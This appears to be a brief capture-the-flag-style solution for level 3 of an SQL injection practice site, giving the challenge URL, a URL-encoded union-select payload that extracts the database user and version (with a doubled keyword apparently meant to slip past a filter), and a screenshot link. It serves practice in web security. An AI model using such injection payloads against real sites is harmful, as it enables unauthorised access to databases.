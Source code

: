 Chall Url: http://www.zixem.altervista.org/SQLi/level3.php?item=3
Payload: http://www.zixem.altervista.org/SQLi/level3.php?item=-3%27%20unionon%20select%20user(),version(),3,4%20--%27

![](https://user-images.githubusercontent.com/25671488/61186476-8099cb00-a683-11e9-8e82-274a55e2f73f.png)
